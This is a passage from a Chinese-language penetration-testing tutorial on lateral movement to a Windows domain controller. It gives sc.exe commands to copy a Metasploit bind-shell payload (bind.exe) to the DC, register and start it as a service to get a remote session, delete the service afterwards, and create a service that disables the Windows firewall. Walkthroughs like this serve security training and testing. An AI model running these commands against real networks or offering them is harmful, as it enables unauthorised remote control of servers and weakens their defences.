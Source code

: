 2. 然后让跳板机使用copy命令远程操作，将metasploit生成的payload文件bind.exe复制到目标主机DC系统C盘中。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

3. 再在目标主机DC上创建一个名称为“backdoor”的服务。命令如下：

```


```
`sc \\[主机名/IP] create [servicename] binpath= "[path]"   #创建计划任务启动程序``sc \\WIN-ENS2VR5TR3N create bindshell binpath= "c:\bind.exe"`
```




```

注意这里的格式，“=”后面是必须空一格的，否则会出现错误。

4. 立即启动该服务：

```


```
sc \\WIN-ENS2VR5TR3N start bindshell
```




```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

执行后，msf成功上线域控：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

5. 使用完后删除刚才创建的服务

```


```
sc \\[host] delete [servicename]   #删除服务
```




```

我们还可以通过设置服务来关闭防火墙：

```


```
`sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"``sc \\WIN-ENS2VR5TR3N start unablefirewall`
```




```
